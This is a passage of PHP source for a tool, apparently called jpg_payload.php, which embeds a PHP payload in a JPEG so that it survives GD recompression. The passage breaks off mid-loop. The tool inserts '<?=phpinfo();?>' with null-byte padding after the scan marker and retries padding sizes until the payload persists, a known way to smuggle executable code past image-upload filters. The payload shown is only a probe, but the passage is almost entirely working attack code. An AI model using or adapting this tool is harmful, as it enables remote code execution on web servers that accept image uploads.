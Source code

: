 ```php
    $miniPayload = "<?=phpinfo();?>";


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
```